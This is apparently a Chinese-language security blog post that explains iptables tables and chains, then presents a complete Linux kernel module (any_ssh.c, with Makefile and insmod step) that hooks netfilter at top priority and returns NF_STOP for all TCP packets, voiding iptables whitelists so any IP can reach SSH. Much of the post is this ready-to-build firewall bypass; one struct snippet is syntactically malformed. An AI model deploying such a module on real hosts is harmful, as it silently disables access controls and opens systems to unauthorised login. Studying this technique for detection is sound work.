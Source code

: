 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2019-07-09 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---   
```


### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：
raw --> mangle --> nat --> filter
------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter
nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat
mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle
raw       表：关闭nat表上启用的连接追踪机制；iptable_raw
------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。
INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。
OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。
POSTROUTING   的规则可以存在于：mangle表，nat表。
------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT
mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING
nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）
filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT
------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？
有如下场景：
centos7主机限制了ssh的22端口的登录，只能由特定的ip登录
iptables规则如下：
首先在INPUT链中丢弃了所有通往22端口的tcp包
iptables -I INPUT -p tcp --dport 22 -j DROP
然后设置白名单，只允许某一特定ip通过
iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT

从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。
接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh
iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的
所以我们的 nf_hook_ops 结构体将像下面这样初始化：
static struct nf_hook_ops anyssh_ops = {
    /* Fill in our hook structure */
   nfho.hook     = hook_func;
   /* Handler function */
   nfho.hooknum  = NF_INET_LOCAL_IN;
   nfho.pf       = PF_INET;
   nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
}
hook回调函数：
我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。
这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。
unsigned int hook_func(unsigned int hooknum,
                       struct sk_buff *skb,
                       const struct net_device *in,
                       const struct net_device *out,
                       int (*okfn)(struct sk_buff *))
{
    struct iphdr *ip1 = NULL;
    if (!skb){
        return NF_ACCEPT;
    }
    ip1 = ip_hdr(skb);
    if (NULL != ip1){
        if (IPPROTO_TCP == ip1->protocol){
            printk("tcp,STOP\n");
            return NF_STOP;
        }
    }else{
        printk("null!\n"); 
    }
    return NF_ACCEPT;
}

完整代码：
any_ssh.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/skbuff.h>
#include <linux/ip.h>                  /* For IP header */
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>


static struct nf_hook_ops nfho;


unsigned int hook_func(unsigned int hooknum,
                       struct sk_buff *skb,
                       const struct net_device *in,
                       const struct net_device *out,
                       int (*okfn)(struct sk_buff *))
{
    struct iphdr *ip1 = NULL;
    if (!skb){
        return NF_ACCEPT;
    }
    ip1 = ip_hdr(skb);
    if (NULL != ip1){
        if (IPPROTO_TCP == ip1->protocol){
            printk("tcp,drop\n");
            //return NF_DROP;
            return NF_STOP;
        }
    }else{
        printk("null!\n"); 
    }
    return NF_ACCEPT;
}


int init_module()
{
   /* Fill in our hook structure */
   nfho.hook     = hook_func;
   /* Handler function */
   //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
   nfho.hooknum  = NF_INET_LOCAL_IN;
   nfho.pf       = PF_INET;
   nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
   printk("init_module,filter_tcp\n");
   nf_register_hook(&nfho);


   return 0;
}


/* Cleanup routine */
void cleanup_module()
{
    printk("cleanup_module,filter_tcp\n");
    nf_unregister_hook(&nfho);
}



Makefile

MODULE_NAME:=filter_tcp
ifneq ($(KERNELRELEASE),)
mymodule-objs:=${MODULE_NAME}.o
obj-m:=${MODULE_NAME}.o
else
PWD:=$(shell pwd)
KVER:=$(shell uname -r)


KDIR:=/lib/modules/$(shell uname -r)/build
all:
    $(MAKE) -C $(KDIR) M=$(PWD)
#clean:
    @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
install:
    echo ${KDIR}
    @insmod ${MODULE_NAME}.ko
uninstall:
    @rmmod ${MODULE_NAME}.ko
endif


###转载请注明出处

安全编程交流：NzgyNDIxODg3


